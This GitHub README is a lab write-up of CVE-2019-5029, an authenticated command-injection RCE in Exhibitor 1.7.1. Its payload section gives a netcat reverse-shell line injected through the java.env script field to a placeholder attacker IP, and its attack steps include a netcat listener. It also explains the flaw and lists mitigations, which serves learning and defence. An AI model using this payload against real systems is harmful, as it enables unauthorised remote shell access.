



# Exhibitor v1.7.1 – Authenticated Remote Code Execution (Exploit-DB 48654)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All demonstrations were performed in a controlled lab environment.  
Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. The author is not responsible for any misuse of this information.

---

## 📌 What Is Exhibitor?

**Exhibitor** is a Java-based supervisor system used to manage Apache ZooKeeper nodes. It is commonly used for service discovery and configuration in distributed environments. Exhibitor provides a web-based interface to control and monitor ZooKeeper instances.

---

## 🚨 About the Vulnerability

A critical authenticated **Remote Code Execution (RCE)** vulnerability exists in **Exhibitor v1.7.1 and below**. This vulnerability is triggered when malicious OS commands are injected into the `java.env script` field of the web UI.

Once the configuration is saved, the command is executed under the context of the Java process running the application.

- **CVE ID**: CVE-2019-5029  
- **Affected Application**: Exhibitor <= 1.7.1  
- **Vulnerability Type**: Authenticated Remote Code Execution  
- **Exploit Type**: Command Injection via Web Interface  
- **Exploit Availability**: [Exploit-DB 48654](https://www.exploit-db.com/exploits/48654)

---

## ⚙️ Lab Setup

- **Target URL**: `http://exhibitor.vlab`  
- **Exhibitor Version**: 1.7.1  
- **Authentication**: Required  
- **Listener**: Netcat on port `3333`  
- **Payload Used**: 

```bash
$(/bin/nc -e /bin/sh <ATTACKER-IP> <PORT> &)
```

> 🔧 Replace `<ATTACKER-IP>` with your IP where Netcat is listening. Replace `<PORT>` with your port where Netcat is listening.

---

## 🚀 Attack Steps

1. **Log into the Exhibitor Web Interface**
   

2. **Navigate to Config -> "java.env script" Field and Inject Reverse Shell Payload and Save Configuration**
   

3. **Start Netcat Listener and Wait for Shell**
   ```bash
   nc -nvlp <PORT>
   ```
   

---

## 🧠 Vulnerability Insights

The `java.env script` input field is intended to pass environment variables, but it does not properly sanitize special characters or command syntax. This allows a crafted payload like `$(...)` to be executed directly in the shell.

---

## 🔐 Mitigation

- Upgrade to the latest version of Exhibitor.
- Disable access to the configuration interface from public networks.
- Enforce strong authentication and access control policies.
- Monitor configuration changes and log shell execution anomalies.

---

## 📃 References

- [Exploit-DB Entry](https://www.exploit-db.com/exploits/48654)  
- [Pentest-Tools Analysis](https://pentest-tools.com/vulnerabilities-exploits/exhibitor-109-171-rce-vulnerability_5035)  
- [Original GitHub PoC](https://github.com/thehunt1s0n/Exihibitor-RCE)

---

## 📝 Medium Blog

Check out the full breakdown and narrative on my Medium blog:  
👉 **[Read the blog](https://medium.com/cyberquestor/exhibitor-v1-authenticated-remote-code-execution-rce-exploit-19f2d8603277?sk=d9d59621aaa987532a77c288a354e90f)**
